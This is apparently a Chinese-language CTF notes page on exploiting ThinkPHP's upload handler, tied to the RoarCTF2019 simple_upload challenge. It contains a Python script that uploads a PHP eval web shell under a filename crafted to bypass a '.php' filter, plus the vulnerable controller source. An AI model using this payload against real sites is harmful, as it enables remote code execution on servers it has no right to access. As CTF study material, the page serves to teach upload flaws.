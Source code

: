  



#### ThinkPHP框架利用

- thinkphp默认上传路径是/home/index/upload

  ```python
  import requests
  url = "http://c2e68701-24aa-42d8-ac2c-bf3c1b2b7d4f.node4.buuoj.cn:81/index.php/home/index/upload/"
  s = requests.Session()
  files = {"file": ("shell.<>php", "<?php eval($_GET['cmd'])?>")}
  r = requests.post(url, files=files)
  print(r.text)
  ```


例题：

[RoarCTF2019_simple_upload](https://huskypower.blog.csdn.net/article/details/120089518?spm=1001.2101.3001.6650.2&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-2-120089518-blog-126756706.pc_relevant_multi_platform_whitelistv3&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-2-120089518-blog-126756706.pc_relevant_multi_platform_whitelistv3&utm_relevant_index=3)

源码：

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
}
```

